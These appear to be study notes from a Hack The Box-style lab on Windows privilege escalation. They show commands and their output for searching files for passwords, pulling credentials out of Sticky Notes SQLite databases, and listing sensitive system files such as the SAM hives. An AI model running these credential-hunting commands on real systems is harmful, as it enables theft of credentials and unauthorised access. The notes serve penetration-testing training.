 # Other Files

## **Manually Searching the File System for Credentials**

use this cheetsheet

https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/

#### **Search File Contents for String**

```powershell
# search on password in this extentions
C:\htb> cd c:\Users\htb-student\Documents & findstr /SI /M "password" *.xml *.ini *.txt

# display full lines has password
C:\htb> findstr /si password *.xml *.ini *.txt *.config

# display the full line and number of it
C:\htb> findstr /spin "password" *.*
```

#### **Search File Contents with PowerShell**

```powershell
PS C:\htb> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

stuff.txt:1:password: l#-x9r11_2_GL!
```

#### **Search for File Extensions**

```powershell
# search on specific file have these names
C:\htb> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

# to search on extention
C:\htb> where /R C:\ *.config

```

***

### Sticky Notes Passwords

users sometimes use sticky notes to store password, not realizing it is a database file.

#### **Looking for StickyNotes DB Files**

```powershell
PS C:\htb> cd C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState ; ls
 
 
    Directory: C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
 
 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021  11:59 AM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         5/25/2021  11:59 AM            982 Ecs.dat
-a----         5/25/2021  11:59 AM           4096 plum.sqlite
-a----         5/25/2021  11:59 AM          32768 plum.sqlite-shm
-a----         5/25/2021  12:00 PM         197792 plum.sqlite-wal
```

We can copy the three `plum.sqlite*` files down to our system and open them with a tool such as [DB Browser for SQLite](https://sqlitebrowser.org/dl/) and view the `Text` column in the `Note` table with the query `select Text from Note;`.

![image.png](<../../../../.gitbook/assets/image (2) (1).png>)

#### **Viewing Sticky Notes Data Using PowerShell**

```powershell
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\htb> cd .\PSSQLite\
PS C:\htb> Import-Module .\PSSQLite.psd1
PS C:\htb> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
PS C:\htb> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
 
Text
----
\id=de368df0-6939-4579-8d38-0fda521c9bc4 vCenter
\id=e4adae4c-a40b-48b4-93a5-900247852f96
\id=1a44a631-6fff-4961-a4df-27898e9e1e65 root:Vc3nt3R_adm1n!
\id=c450fc5f-dc51-4412-b4ac-321fd41c522a Thycotic demo tomorrow at 10am
```

#### **Strings to View DB File Contents**

We can also copy them over to our attack box and search through the data using the `strings` command, which may be less efficient depending on the size of the database.

```bash
irix@htb[/htb]$  strings plum.sqlite-wal

CREATE TABLE "Note" (
"Text" varchar ,
"WindowPosition" varchar ,
"IsOpen" integer ,
"IsAlwaysOnTop" integer ,
"CreationNoteIdAnchor" varchar ,
"Theme" varchar ,
"IsFutureNote" integer ,
"RemoteId" varchar ,
"ChangeKey" varchar ,
"LastServerVersion" varchar ,
"RemoteSchemaVersion" integer ,
"IsRemoteDataInvalid" integer ,
"PendingInsightsScan" integer ,
"Type" varchar ,
"Id" varchar primary key not null ,
"ParentId" varchar ,
"CreatedAt" bigint ,
"DeletedAt" bigint ,
"UpdatedAt" bigint )'
indexsqlite_autoindex_Note_1Note
af907b1b-1eef-4d29-b238-3ea74f7ffe5caf907b1b-1eef-4d29-b238-3ea74f7ffe5c
U	af907b1b-1eef-4d29-b238-3ea74f7ffe5c
Yellow93b49900-6530-42e0-b35c-2663989ae4b3af907b1b-1eef-4d29-b238-3ea74f7ffe5c
U	93b49900-6530-42e0-b35c-2663989ae4b3

< SNIP >

\id=011f29a4-e37f-451d-967e-c42b818473c2 vCenter
\id=34910533-ddcf-4ac4-b8ed-3d1f10be9e61 alright*
\id=ffaea2ff-b4fc-4a14-a431-998dc833208c root:Vc3nt3R_adm1n!ManagedPosition=Yellow93b49900-6530-42e0-b35c-2663989ae4b3af907b1b-1eef-4d29-b238-3ea74f7ffe5c

```

***

#### **Other Interesting Files**

```bash
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```
